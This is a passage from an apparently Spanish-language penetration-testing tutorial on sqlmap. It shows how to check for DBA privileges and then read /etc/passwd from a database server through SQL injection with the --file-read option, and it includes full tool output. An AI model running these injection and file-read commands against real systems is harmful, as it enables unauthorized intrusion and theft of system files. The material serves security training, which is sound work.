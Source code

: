 Obtenemos que el usuario actual es DBA: False, lo que significa que no tenemos acceso DBA. 

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:37:47 /xxxx-xx-xx/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True
```

Vemos que esta vez obtenemos que el usuario actual es DBA: True, lo que significa que podemos tener el privilegio de leer archivos locales.

### Escritura/lectura de ficheros

#### Lectura 

En lugar de inyectar manualmente la línea anterior a través de SQLi, SQLMap facilita relativamente la lectura de archivos locales con la opción **--file-read**.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:40:00 /xxxx-xx-xx/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)
```
